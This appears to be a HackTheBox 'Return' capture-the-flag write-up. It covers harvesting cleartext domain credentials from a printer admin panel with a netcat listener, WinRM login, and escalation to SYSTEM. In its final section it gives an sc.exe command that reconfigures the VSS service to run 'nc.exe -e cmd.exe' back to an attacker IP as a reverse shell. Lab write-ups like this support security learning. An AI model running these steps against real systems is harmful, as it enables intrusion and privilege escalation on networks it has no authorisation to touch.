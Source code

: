 ```yaml
---
weight: 1
title: "HackTheBox - Return Writeup"
date: 2022-04-02
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Return Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["server-operators-group", "printer", "sc.exe", "evil-winrm"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/13531" name="MrR3boot" picture="https://www.hackthebox.com/storage/avatars/45c15da90175761bef77ecb2d44942b4.png" >}}

<!--more-->

## Nmap

First, let's start scanning the IP address with the Nmap.

### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

## Http

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![printer webpage](printer-home.png "printer webpage")

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![printer settings](printer-settings.png "printer settings")

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### NetCat

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![put tun0 ip](printer-tun0.png "put tun0 ip")

![grab the credentials](nc-clear-pass.png "grab the credentials")

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

## Evil-WinRM

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![login as svc-printer](evil-winrm-svc-printer.png "login as svc-printer")

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### Server Operators

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![Server Operators group](whoami-all.png "Server Operators group")

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### nc.exe

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![transfer nc.exe](nc-exe-download.png "transfer nc.exe")

## System Shell

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![shell as nt authority\system](system-shell.png "shell as nt authority\system")

TA DAAA!!! now I'm an `authority\system`.